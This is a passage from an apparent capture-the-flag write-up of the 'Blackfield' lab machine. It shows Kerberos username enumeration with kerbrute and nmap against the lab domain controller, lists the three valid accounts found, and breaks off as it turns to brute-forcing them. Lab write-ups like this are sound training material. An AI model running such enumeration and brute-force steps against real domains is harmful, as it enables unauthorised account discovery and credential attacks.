 From this we know this hostname is DC01 in domain BLACKFIELD.local

### Kerberos (port 88)

```shell
kerbrute userenum --dc ${TARGET} -d blackfield.local ./usernames.txt
```

Result:

```text
>  Using KDC(s):
>   10.10.10.192:88

>  [+] VALID USERNAME:       audit2020@blackfield
>  [+] VALID USERNAME:       svc_backup@blackfield
>  [+] VALID USERNAME:       support@blackfield
>  Done! Tested 316 usernames (3 valid) in 161.132 seconds
```

Or better and faster with :

```shell
nmap ${TARGET} -p 88 --script krb5-enum-users --script-args krb5-enum-users.realm='blackfield.local',userdb=./usernames.txt -Pn
```

Result:

```text
Nmap scan report for 10.10.10.192
Host is up (0.014s latency).

PORT   STATE SERVICE
88/tcp open  kerberos-sec
| krb5-enum-users: 
| Discovered Kerberos principals
|     audit2020@blackfield.local
|     support@blackfield.local
|_    svc_backup@blackfield.local

Nmap done: 1 IP address (1 host up) scanned in 0.90 seconds
```

So from all the list obtained from 'profiles$' share, only these 3 users are valid :

- audit2020
- support
- svc_backup

## Initial access

### Bruteforce accounts

Knowing 3 usernames, it could be possible to bruteforce them with something like :
